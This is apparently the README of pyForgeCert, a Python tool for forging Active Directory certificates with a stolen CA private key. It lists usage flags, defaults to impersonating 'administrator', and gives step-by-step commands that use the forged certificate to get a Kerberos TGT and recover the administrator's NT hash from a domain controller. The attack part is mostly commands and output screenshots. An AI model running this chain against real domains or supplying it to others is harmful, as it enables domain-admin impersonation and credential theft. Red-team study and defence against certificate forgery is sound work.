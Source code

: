 # pyForgeCert
pyForgeCert is a Python equivalent of the original [ForgeCert](https://github.com/GhostPack/ForgeCert) written in C#.

## Usage
```
pyForgeCert

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file, default (PEM).
  -p IPASSWORD, --ipassword IPASSWORD
                        Password to the CA private key file.(PFX file).
  -s {User,Computer}, --subject {User,Computer}
                        Subject name in the certificate.
  -a ALTNAME, --altname ALTNAME
                        UPN of the user to authenticate as.
  -o OUTPUT, --output OUTPUT
                        Path where to save the new .pfx certificate.
  -se SERIAL, --serial SERIAL
                        Serial number for the forged certificate.
  -op OPASSWORD, --opassword OPASSWORD
                        Password to the .pfx file.
  -c CRL, --crl CRL     Ldap path to a CRL for the forged certificate.
  -pfx                  If the input file is PFX.
```

### Using PEM
```
python pyForgeCert.py -i cert.pem -o admin.pfx
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061320030.png)

Default SubjectAltName is `administrator`, if you want to change it, use `-a`.

### Using PFX
```
python pyForgeCert.py -i cert.pfx -o admin.pfx -pfx -p 123
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061322818.png)

Once you get the new pfx, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```
python tools/gettgtpkinit.py -cert-pfx admin.pfx -pfx-pass 123 cgdomain.com/administrator -dc-ip 10.211.55.200 admin.ccache
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061330730.png)


```
python tools/getnthash.py cgdomain.com/administrator -dc-ip 10.211.55.200 -k 62bcb453bb21d4f8dd04492dd01d61137cb95367ca7e47587251e0563e6460f7
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061333685.png)


### **Set the specified serial number**
use `get_sn.py` get target serial number
```
python get_sn.py 192.168.190.94
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108091513974.png)

Set serial number
```
python pyForgeCert.py -i 1.pem -o admin.pfx -se 802826827172011537117970693465759827135299588
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108091514165.png)